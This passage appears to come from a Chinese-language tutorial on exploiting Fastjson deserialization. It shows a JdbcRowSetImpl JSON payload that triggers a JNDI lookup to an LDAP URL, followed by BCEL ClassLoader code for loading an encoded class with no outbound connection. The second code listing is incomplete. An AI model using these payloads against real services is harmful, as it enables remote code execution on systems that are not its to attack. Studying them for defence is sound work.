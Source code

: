 ```plain
        /*
            public void setAutoCommit(boolean var1) throws SQLException {
        */
// 第三个值传入一个布尔值


        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/rNMfFuPI\",\"AutoCommit\":\"false\"}";

        JSON.parseObject(s);
    }
}
```

#### 限制：

版本限制，依赖限制，出网（JNDI 外联）

### FastJsonBcel 类 + 动态类加载（不出网）：

#### 调用链：

我们在 jdk 的内置类中找到了这样一方法，能够进行动态类加载，就是 ClassLoader 里面的 loadClass 方法，在里面调用了 defineClass：

[![](assets/1701612260-1efa2d0212e378142c28552c36e0e840.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230155-dd150508-2969-1.png)

我们先来看一下如何使用这里的动态类加载来加载任意类：

我们想要调 defineClass，就要保证 clazz 不为 null，然后我们就要调前面的`createClass`方法，然后里面调用了`decode`方法返回了 clazz 值，所以我们在编写 exp 的时候就需要先进行一个`encode`：

[![](assets/1701612260-2c5440b20a08ec2fa925b885816c06ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230203-e210d758-2969-1.png)

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
        //使用 BCEL 方式动态加载一下
        classLoader.loadClass("$$BCEL$$"+code).newInstance();


    private static byte[] convert(String s) throws Exception{
    }
}
```
